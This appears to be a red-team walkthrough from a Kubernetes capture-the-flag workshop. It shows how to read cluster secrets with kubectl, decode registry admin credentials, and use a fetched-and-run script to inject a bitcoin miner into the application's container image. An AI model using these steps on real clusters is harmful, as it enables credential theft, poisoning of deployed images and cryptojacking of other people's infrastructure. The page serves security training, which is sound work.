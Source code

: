 # The calls are coming from inside the container! Scenario 3 Attack

## Red Team Update

It appears the blue team has again deleted our bitcoinero pods.  It's time to get sneakier.  Instead of trying to deploy new pods into their cluster, let's poke around to see if there's anything we can use.

Lets , let's see if there's any credentials accessible.

```
# In case you need to re-download kubectl
cd /usr/local/bin; curl -LO https://dl.k8s.io/release/v1.30/bin/linux/amd64/kubectl; chmod 555 kubectl

# Let's see if there's any secrets left out for us to grab
kubectl get secrets
```

Ooh.  There's something called `acr-secret`.  Let's dig in.
```
kubectl get secrets/acr-secret -o json
```

There's a .dockerconfigjson file in the secret that appears to be Base64 encoded

```
kubectl get secrets/acr-secret -o json | jq -r '.data.".dockerconfigjson"' | base64 -d - | jq
```

Now we're talking!  It looks like they put the admin credentials for their registry in a secret.  I bet we can use this to both PUSH and PULL new images to their registry.

We can use [Buildah](https://buildah.io/) to create, pull and push container images.  However, we will need escalated privledges.  

Some of the other red-team members have found this [neat trick from Twitter](https://x.com/mauilion/status/1129468485480751104), which deploy a container that gives us full host access.  Let's work with them to find a way to utilize this.

... TIME PASSES ...

Good luck!  They've come up with two scripts:

* [run-bitcoin-injector.sh](https://github.com/azure/aks-ctf/blob/main/workshop/scenario_3/run-bitcoin-injector.sh) - deploy a [Kubernetes Job](https://kubernetes.io/docs/concepts/workloads/controllers/job/) that uses the registry credentials we found, to create another pod that injects our bitcoin miner into the container
* [inject-image.sh](https://github.com/azure/aks-ctf/blob/main/workshop/scenario_3/inject-image.sh) - Uses Buildah to pulls the current app image, injects the bitcoin miner into the image, re-publishes the image under the same name

Let's go back to our admin panel and run the following:

```console
curl -O -J https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_3/run-bitcoin-injector.sh; bash run-bitcoin-injector.sh
```

Everything has been installed.  Let's kill our process and let the new image come up
```
kubectl delete pod $HOSTNAME
```

The page immediately died (which is understandable since we killed the pod).  Let's reload the page and see if we were successful.  Run the following command in the admin page

```
ps
```

Our `moneymoneymoney` process is there and running inside their container!  Good luck finding that one!